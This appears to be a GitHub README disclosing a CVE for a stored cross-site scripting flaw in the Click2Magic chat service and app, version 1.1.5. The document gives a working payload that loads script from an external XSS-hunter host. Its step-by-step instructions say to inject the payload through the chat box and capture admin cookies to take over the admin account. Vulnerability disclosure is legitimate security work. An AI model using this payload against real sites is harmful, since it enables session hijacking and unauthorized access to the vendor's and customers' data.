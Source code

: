 # CVE
This is my Repo for the CVE MITRE 



# Exploit Title: [Stored Cross Site Scripting]
# Date: 05/04/2022
# Exploit Author: [Shivam Verma(cyb3r_n3rd)]
# Vendor Homepage: [https://www.click2magic.com/]
# Software Link: [https://play.google.com/store/apps/details?id=com.tvisha.click2magic&hl=en_IN]
# Version: [1.1.5] 
# Tested on: [Kali Linux 2021.4]


Vulnerability Name: Stored Cross Site Scripting
Vulnerability Description: In this Scenario the payload is getting stored in the Server and delivering us the admin cookies we can capture admin cookies and see all the data in admin panel

Payload: "><script src=https://nick413.xss.ht></script>

Steps to reproduce: 
Step1: Goto Url: https://www.click2magic.com OR Download the app from the above link
STep2: Start a chat 
Step3: Put payload in the chat box
Payload: "><script src=https://nick413.xss.ht></script>
Step4: Wait for the admin to click on the link 
Step5: you will see the popup and getting admin cookies Confirming the Execution of payload

POC: 
![Screenshot (217)](https://user-images.githubusercontent.com/71320606/161679689-af4f576f-1df9-46a4-9c65-86d168e3f277.png)

Admin Account takeover Screenshot - We can see the vendor's chat

![WhatsApp Image 2022-04-05 at 10 47 03 AM](https://user-images.githubusercontent.com/71320606/161683950-e137aea3-f505-4162-bd82-405cfeb53c85.jpeg)
